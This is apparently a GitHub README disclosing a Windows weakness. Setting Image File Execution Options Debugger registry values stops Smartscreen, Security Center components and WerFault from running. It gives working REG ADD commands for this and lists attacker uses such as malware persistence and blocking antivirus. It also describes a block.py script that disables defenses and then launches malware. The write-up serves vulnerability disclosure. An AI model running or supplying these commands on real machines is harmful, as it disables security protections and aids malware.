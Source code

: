 # Block Smartscreen and Security Center on Windows Operating Systems
&emsp; On the evening of May 29 (2022), I made the necessary notifications to the "Microsoft Security Center" [ VULN-068278].
However, according to the reply received by e-mail on June 10, "We determined that an immediate fix will not be released for the reported behavior. It was recommended to hardened because the relevant vulnerability requires **Administrator authority**. We have closed this case" .
For this reason, I wanted to warn users by posting this vulnerability or weakness in my account on Github.


&emsp; If any executable file is added to ("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\") the regedit path and a debugger flag is set, another program can be run before that program is run. 
If the program that is run first does not invoke the relevant program in any way, it can replace the relevant program.
This can prevent various important programs from running. 
This is valid for important processes of Windows.


&emsp; For example, if you want to block Smartscreen
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\smartscreen.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```


&emsp; For example, if you want to block Security Center (Windows Defender and other tools)
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\securityhealthhost.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\secHealthUI.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\werFault.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```

<dl>
  <dt> The purposes of using this vulnerability can basically be listed as follows.
  <dd>
  <dd> 1) It can provide persistence for malware software.
  <dd> 2) Although it is different in function and structure, similar attacks that can be made by interfering with the system call table can also be made using this vulnerability.
  <dd> 3) Security measures such as Smartscreen, Windows Defender, etc. that come integrated with Windows can be blocked.
For example, although Windows Defender cannot be blocked directly, Windows Defender is prevented from running by preventing the components necessary for it to work.
In the example, Windows Security Center has been prevented from working, and related components have become inoperable.
  <dd> 4) In particular, third-party virus scanning and security software can be blocked.
Also, any other third-party software may be blocked from running.
  <dd> 5) Processes used for forensic purposes that are integrated with Windows can be blocked.
  <dd> 6) By blocking the components necessary for the operation of Windows, operations such as "sending error reports" and "receiving updates" can be rendered inoperable.
For example, by blocking the "calcs" command, access to certain folders and files can be prevented by preventing the user and Windows from accessing the access control list.
</dl>


Video and Screenshots of the Vulnerability
---
&emsp; A simple video has been posted on Youtube to demonstrate the vulnerability. 
It can be viewed at the link below.

&emsp; **[Youtube Link]** https://www.youtube.com/watch?v=_rQrLeDaFSU


**[ScreenShot 1]**
![e3](https://user-images.githubusercontent.com/71177413/173035204-a42ff30d-6dd0-4dde-8c53-10384db37ed2.JPG)


**[ScreenShot 2]**
![e4](https://user-images.githubusercontent.com/71177413/173035010-04fef1aa-7eac-4891-8541-5bcd57d70390.png)


**[ScreenShot 3]**
![e6](https://user-images.githubusercontent.com/71177413/173035082-fd6e2075-7c98-4786-a50a-d35db152027a.png)


Exploiting the Vulnerability
---
&emsp; As an example, a script has been written to show how a malware can exploit this vulnerability.
The **"block.py"** script has been added to the files as an example in order to represent what we call the first stage in malware attacks.

It primarily blocks Smartscreen and Windows Security from working.
In this way, Windows Defender cannot work.
Then it runs the malware


**block.py**
```
(Administrator authority)>> block.py malware.exe
```



Additional information on malwares
---
&emsp; In order to evaluate the vulnerability, basic information about malware-type attacks is given.

**A) Ideal Malware Attacks**
&emsp;

![malware_1](https://user-images.githubusercontent.com/71177413/173053242-7229231b-fad8-4716-90ee-d8572d5c74a6.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]

**B) Types of Malware**
&emsp;

![malware_2_type](https://user-images.githubusercontent.com/71177413/173053253-a976a2ed-72cf-4579-b97f-0bb6d09a4093.png)
[jpg source: From the book "Linux İşletim Sisteminde Malware Analizi", Abdulkadir GÜNGÖR, ISBN:978-625-409-378-4]


**C) Final Stage**
&emsp;

![malware_3](https://user-images.githubusercontent.com/71177413/173053274-478c0e9f-67d0-4b93-b842-061c611fbde2.JPG)
[jpg source: From the training notes, Abdulkadir GÜNGÖR]


Disclaimer
---
&emsp; Information and projects published by me on Github are entirely at the user's own risk.
I'm not responsible in any way for any kind of damage that is done to your computer / os / program as cause of this project.
Make sure to use virtual systems as a test environment!


Legal Warning
---
&emsp; Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
